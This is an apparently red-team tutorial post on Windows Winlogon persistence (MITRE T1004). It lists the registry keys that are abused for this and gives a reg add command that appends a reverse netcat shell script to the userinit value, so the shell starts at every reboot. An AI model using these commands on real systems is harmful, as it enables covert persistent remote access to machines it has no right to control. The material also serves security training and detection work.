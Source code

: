 ```yaml
---
layout: post
title: "windows logon helper"
date: 2024-06-18
categories: persistence
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /persistence/
---
```


# Windows Logon Helper

> Winlogon.exe is a Windows component responsible for actions at logon/logoff as well as the secure attention sequence (SAS) triggered by Ctrl-Alt-Delete.
>
> [https://attack.mitre.org/techniques/T1004/](https://attack.mitre.org/techniques/T1004/)

Commonly abused Winlogon registry keys and value for persistence are:

```
HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit
HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify 
HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\shell
```

{% hint style="info" %}
HKCU can also be replaced with HKLM for a system wide persistence, if you have admin privileges.
{% endhint %}

## Execution

Let's run through the techqnique abusing the `userinit` subkey.

Let's see what's currently held at the `userinit`:

```
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v userinit
```

![](<../../.gitbook/assets/image (424).png>)

Let's now add an additional item shell.cmd (a simple reverse netcat shell) to the list that we want to be launched when the compromised machine reboots:

```
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v userinit /d C:\Windows\system32\userinit.exe,C:\tools\shell.cmd /t reg_sz /f
```

![](<../../.gitbook/assets/image (425).png>)

Rebooting the compromised system executes the c:\tools\shell.cmd, which in turn establishes a reverse shell to the attacking system:

![](<../../.gitbook/assets/image (426).png>)

## References

{% embed url="https://attack.mitre.org/techniques/T1004/" %}
@spotheplanet
